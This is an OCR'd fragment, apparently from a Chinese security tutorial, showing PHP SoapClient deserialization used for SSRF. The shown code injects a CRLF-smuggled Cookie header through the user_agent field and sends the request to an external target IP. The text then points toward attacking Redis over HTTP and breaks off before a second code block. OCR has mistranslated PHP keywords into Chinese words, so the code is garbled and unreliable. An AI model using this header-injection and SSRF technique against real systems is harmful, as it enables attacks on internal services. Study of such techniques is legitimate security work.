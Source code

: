     
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8  
    

|

    
    
      
    $target = 'http://47.xxx.xxx.72:2333/' ;   
    $a = new SoapClient( null , array ( 'location' => $target , 'user_agent' => "WHOAMI\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4" , 'uri' => 'test' ));   
    $b = 序列化( $a );   
    回声 $b ;   
    $c = 反序列化( $b );   
    $c -> a();    // 随便调用对象中不存在的方法,触发__call方法进行ssrf   
    ?>  
      
  
---|---  
  
`  
`

`执行代码后，如下图所示，成功在HTTP头中插入了一个我们自定义的cookie：`

`![]()`

`可以再去drops回顾一下如何通过HTTP协议去攻击Redis的：Trying to hack Redis via HTTP requests`

`如下测试代码：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8   
    9   
    10  
    